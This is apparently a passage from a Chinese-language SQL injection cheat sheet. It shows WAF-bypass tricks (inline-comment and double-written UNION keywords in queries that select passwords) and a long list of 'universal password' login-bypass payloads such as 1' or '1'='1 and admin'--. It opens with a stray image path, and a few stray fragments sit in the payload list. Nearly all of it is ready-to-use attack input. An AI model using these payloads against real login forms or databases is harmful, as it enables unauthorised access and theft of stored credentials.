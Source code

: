 - 内联注释绕过

```
select * from users /*!union*/ select passwd from emils /*!where*/ limit 0,1;
```

- 双写绕过

```
select * from users unUnionion select passwd from emils where limit 0,1;
```



## xx。万能密码

```
username : 1' or '1'='1
password : 1' or '1'='1
```



```
' or 1='1
'or'='or'
admin
admin'--
admin' or 4=4--
admin' or '1'='1'--
admin888
"or "a"="a
admin' or 2=2#
a' having 1=1#
a' having 1=1--
admin' or '2'='2
')or('a'='a
or 4=4--
c
a'or' 4=4--
"or 4=4--
'or'a'='a
"or"="a'='a
'or''='
'or'='or'
1 or '1'='1'=1
1 or '1'='1' or 4=4
'OR 4=4%00
"or 4=4%00
'xor
admin' UNION Select 1,1,1 FROM admin Where ''='
1
-1%cf' union select 1,1,1 as password,1,1,1 %23
1
17..admin' or 'a'='a 密码随便
'or'='or'
'or 4=4/*

something
' OR '1'='1
1'or'1'='1
admin' OR 4=4/*
1'or'1'='1
 
```
